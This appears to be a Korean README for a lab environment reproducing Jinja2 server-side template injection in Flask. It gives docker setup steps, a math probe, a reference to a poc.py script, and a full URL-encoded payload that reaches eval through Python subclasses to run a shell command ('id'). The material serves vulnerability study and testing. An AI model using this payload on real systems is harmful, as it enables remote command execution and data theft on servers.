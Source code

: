 # Flask( Jinja2 ) / SSTI

**Contributors**

-   [양인규(@nertynertynerty)](https://github.com/nertynertynerty)

<br/>

### 요약

-   Jinja2 Library는 Template Engine이다. 따라 Template 내의 {% content %}나 {{ content }}와 같은 형식을 Template Engine이 인식해 Server의 코드와 상호작용하거나 Jinja2 경우 Python코드를 실행할 수 있다. 일반적으로 개발자가 Template에 데이터를 추가하는 등 상황에서 활용한다.
-   하지만 Client로 요청 받은 데이터를 그대로 Template에 삽입해 사용한다면, 그대로 SSTI 취약점이 발생할 수 있다.
-   따라 Client로부터 요청 데이터가 Template Engine이 읽는 형식으로 보낸다면, Server단 코드를 실행할 수 있다.

<br/>

### 환경 구성 및 실행

-   `docker compose build`를 실행하여 테스트 환경을 빌드함.
-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8000/?name={{233*233}}`에 접속하여 54289가 출력되어, 취약한 테스트 페이지를 확인함.
-   1. `python3 poc.py id`를 실행하여 SSTI 취약점으로 shell의 id 결과를 볼 수 있음.
-   2. `http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D`을 접속하여 SSTI 취약점으로 shell의 id 결과를 볼 수 있음.

<br/>

### 결과

![실행 결과1](result1.png)
![실행 결과2](result2.png)

<br/>

### 정리

-   이 취약점은 공격자가 Template에 의도되지 않은 데이터를 삽입해 서버단 명령을 실행 할 수 있어, 정보 유출의 위험이 있음. 안전한 웹 서비스 운영을 위해서는 Client의 요청을 검증한 후 사용하는 등 추가적인 조치가 필요함.

